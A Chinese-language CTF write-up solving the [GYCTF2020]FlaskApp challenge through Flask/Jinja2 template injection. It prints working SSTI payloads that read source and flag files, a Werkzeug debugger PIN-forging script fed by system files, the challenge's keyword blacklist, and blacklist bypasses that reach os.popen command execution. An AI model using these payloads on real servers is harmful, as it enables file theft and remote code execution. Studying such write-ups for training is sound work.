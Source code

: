 # Flask+SSTI的新火花

记一次buu刷题记和回顾祥云杯被虐出屎的经历。题目：**[GYCTF2020]FlaskApp**

## 一 题目初见

朴实无华的页面，一个base64的小程序页面

![image-20201124235652622](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201124235652622.png)

看到有提示。

![image-20201124235709905](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201124235709905.png)

我就想到了可能是flask的失败报错界面和pin码的获取（来源祥云杯的虐后感）

## 二 开始解题

![image-20201124235832987](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201124235832987.png)

看到这里就不用多解释了，输入一个非法的字符串会自动跳转到这里，我们接着思路，可以在这里查看源码。

![image-20201124235919632](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201124235919632.png)

可以看到是将解密之后的字符串**直接输出**到页面上，不用说SSTI安排上。

![image-20201125000013089](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201125000013089.png)

![image-20201125000045001](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20201125000045001.png)

触发了waf。大概流程就是，在加密页面将注入的内容变成base64，再解密的解密进行解密。**至于waf嘛**，没有源代码，只能一个一个的尝试。注意python是3.8.7的版本。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

这里借用答案的一个payload，直接进行读取文件。看到waf函数

```
def waf(str):
    black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;,
                  &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;]
    for x in black_list :
        if x in str.lower() :
            return 1

```

一看凉了，没有命令执行了。当然不可能不可以命令执行的，python可是最骚的语言。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}
```

只有进行文件读取，但是flag这个文件不知道文件名字，就只能采取获取pin码在这里进行任意python代码执行。

### 要生成pin码，我们需要以下几个信息

```
(1)flask所登录的用户名。可以通过读取/etc/password知道 用户为flaskweb
(2) modname 一般不变就是flask.app
(3)getattr(app, “name”, app.class.name)。python该值一般为Flask ，值一般不变
(4）flask库下app.py的绝对路径。在报错信息中可以获取此值为： /usr/local/lib/python3.7/site-packages/flask/app.py
(5)当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address读取。
(6)docker机器id对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件。对于docker机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id，
```

payload就自己构造吧，放上收藏已久的秘密小脚本跑就行了。

```
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485410388611',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '310e09efcc43ceb10e426a0ffc99add5c651575fe93627e6019400d4520272ed'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```

题目完结。

## 三 非预期解

首先我们可以看到这个waf实在是太废物了，等于没有。字符串拼接的方法，字符串倒置的方法都可以对他进行绕过，辣鸡。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}

```

```
{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %}   {% for b in c.__init__.__globals__.values() %}   {% if b.__class__ == {}.__class__ %}     {% if 'eva'+'l' in b.keys() %}       {{ b['eva'+'l']('__impor'+'t__'+'("o'+'s")'+'.pope'+'n'+'("cat /this_is_the_fl'+'ag.txt").read()') }}     {% endif %}   {% endif %}   {% endfor %} {% endif %} {% endfor %}

```


